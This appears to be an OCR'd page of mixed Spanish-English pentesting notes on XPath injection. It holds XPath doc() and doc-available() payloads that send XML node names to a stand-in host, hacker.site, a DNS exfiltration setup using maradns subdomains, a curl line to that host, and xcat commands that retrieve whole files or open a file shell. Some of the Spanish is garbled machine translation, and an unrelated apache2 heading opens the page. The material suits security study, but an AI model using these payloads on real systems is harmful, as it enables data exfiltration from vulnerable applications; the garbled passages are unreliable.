 Configurar un servidor web en apache2

```js
... and doc('http://hacker.site/OOB/test/request')

... and doc(concat('http://hacker.site', 'value1/', 'value2'))

... and doc(concat('http://hacker.site', name(/*)))
# to discover the root name xml file

... and doc(concat('http://hacker.site', name(/*[1]/*[1])))
# u can discover the full tree name

... and doc-available(concat('http://hacker.site', encode-for-uri(name(/*[1]/*[1]))))

```

### to exfiltrate via DNS

```bash
apt-get install maradns
```

Básicamente vamos a configurar un DNS en funcionamiento como \*.hacker.site

* todos los subdominios redirán su redirija a hackersite.

Entonces podemos exfiltrar los valores de los archivos XML en los espacios subdomain:

```js
and doc-available(concat('http://', name(/*),'.', '.__.hacker.site')
```

> Olvídate de la **tail -f** en el archivo de registro maradns para obtener los resultados

* if Tenemos que probar el espacio u otros personajes que no están permitidos

necesitamos obtener el valor en codepoints.net y encode como

```bash
curl hello\32world.hacker.site
```

### Using automated Tool

Xcat:

```python
python run_xcat.py --method GET http://xpath.hacker.site title=Code title "Brown" test_injection
python run_xcat.py --method GET http://xpath.hacker.site title=Code title "Brown" run
python run_xcat.py --method GET http://xpath.hacker.site title=Code title "Brown" run retrieve //this will retrieve the whole file
python run_xcat.py --public-ip "127.3.4.5" --method GET http://xpath.hacker.site title=Code title "Brown" run retrieve
python run_xcat.py --method GET http://xpath.hacker.site title=Code title "Brown" run file_shell
```

## Lab 1
